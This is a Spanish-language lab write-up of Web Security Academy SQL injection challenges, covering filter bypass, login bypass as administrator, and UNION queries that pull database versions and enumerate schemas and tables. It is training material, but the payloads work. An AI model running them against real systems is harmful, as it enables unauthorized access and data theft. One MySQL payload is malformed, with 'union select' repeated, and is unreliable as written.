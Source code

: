 # Inyecciones SQL

## cheatsheet


## Laboratorios

### Reto 1

Este laboratorio presenta una vulnerabilidad de inyección SQL en el filtro de categorías de productos. Cuando el usuario selecciona una categoría, la aplicación ejecuta una consulta SQL como la siguiente:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

Para resolver el laboratorio, realice un ataque de inyección SQL que haga que la aplicación muestre uno o más productos no lanzados.

En la url podemos emplear una vulnerabilidad típica usando las comillas y comentando lo siguiente de esta forma podemos hacerlo:

```bash
https://web-security-academy.net/filter?category=Pets
```
Para explotarla podemos usar `test' or 1=1-- -` donde 1=1 siempre se va a dar  y los guiones posteriores sirven para comentar lo que viene siguiente

```bash
https://web-security-academy.net/filter?category=Pets' or 1=1-- -
```

Obtenemos todos los procutos esten o no lanzados. si quisieramos solo ver los que no estan lanzados , tendriamos que usar esta sentencia:

```bash
https://web-security-academy.net/filter?category=Pets' or released=0-- -
```


### Reto 2

Este laboratorio contiene una vulnerabilidad de inyección SQL en la función de inicio de sesión.

Para resolver el laboratorio, realice un ataque de inyección SQL que inicie sesión en la aplicación como administrator usuario.

Para resolver este reto , he realizado un ataque parecido al reto anterior en un panel de login para ello he utilizado lo siguiente:

```bash
User: administrator
passwd: test' or 1=1-- -
```

De esta manera hacemos un bypass del login.

### Reto 3 Ataque de inyección SQL, consultando el tipo y la versión de la base de datos en Oracle

Este laboratorio presenta una vulnerabilidad de inyección SQL en el filtro de categorías de productos. Se puede usar un ataque UNION para recuperar los resultados de una consulta inyectada.

Para resolver el laboratorio, muestre la cadena de versión de la base de datos,  es importante destacar que las sentencias de SQL son distintas para cada base de datos.

Para lograrlo:

- Se intercepta la solicitud que filtra los productos por categoría y se modifica el parámetro ‘category’ hay que tener en cuenta que para extraer datos no nos vale lo anterior que muestra todo.

- Primero se determina cuántas columnas devuelve la consulta y cuáles aceptan datos de tipo texto podemos usar ORDER BY e ir probando en nuestro caso son dos columnas. 
```
https://web-security-academy.net/filter?category=Pet' order by 2-- -
```

Esto es necesario para que el ataque UNION funcione correctamente, la letras a y b se deberian de mostrar en alguna parte de la página, la tabla `dual` es una tabla especial que tiene oracle de una fila y columna
 para hacer cálculos.

```
https://web-security-academy.net/filter?category=Pets' union select 'a','b' from dual-- -
```

- Una vez identificadas las columnas, se utiliza una inyección que consulta la tabla ‘v$version’, propia de Oracle, para obtener el valor del campo ‘BANNER’, que contiene información sobre la versión de la base de datos.

- Ejemplo de oracle
```
https://web-security-academy.net/filter?category=Pets' union select 'a',banner from v$version-- -
```

- Ejemplo de MySQL y Microsoft

```
https://web-security-academy.net/filter?category=Pets' union select 'a',@@version-- -
```

Otros ejemplos: 

- Extraer las bases de datos que hay en MYSQL

```
https://web-security-academy.net/filter?category=Pets' union select 'a',union select 'a',schema_name from information_schema.schemata-- -
```

Enumerararlas usando `group_concat()`para concatenar todos los nombres en una sola fila y poder verlos todos juntos

```
https://web-security-academy.net/filter?category=' union select NULL,group_concat(schema_name) from information_schema.schemata-- -
```

- Enumeramos todas las tablas de todas las bases de datos

```
https://web-security-academy.net/filter?category=' union select NULL,table_name from information_schema.tables-- -
```

- Enumeramos las tablas de una base de datos en específico por ejemplo 'academy_labs'

```
https://web-security-academy.net/filter?category=' union select NULL,table_name from information_schema.tables where table_schema='academy_labs'-- -
```


## ¿Qué es server-side template injection ?

